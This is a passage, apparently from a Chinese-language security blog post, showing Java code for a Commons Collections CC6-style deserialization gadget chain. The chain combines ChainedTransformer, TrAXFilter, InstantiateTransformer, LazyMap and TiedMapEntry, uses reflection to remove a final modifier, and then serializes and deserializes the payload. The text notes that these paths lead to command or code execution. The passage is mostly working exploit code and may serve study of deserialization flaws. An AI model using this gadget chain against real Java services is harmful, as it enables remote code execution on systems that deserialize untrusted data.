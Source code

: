```java
            }
        }
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesClass}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer("godown"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test1");
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(tiedMapEntry, "test2");
        map.remove("test1");
        Class lazymapClass = lazyMap.getClass();
        Field factory = lazymapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(factory, factory.getModifiers() & ~Modifier.FINAL);
        factory.set(lazyMap, chainedTransformer);
        serialize(hashMap);
        unserialize("cc6.ser");
    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```



上面各序列化代码去掉\_tfactory的赋值依旧能用，原理上面说过了。

目前以下几个路径都能触发命令执行or代码执行

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240801180040465.png)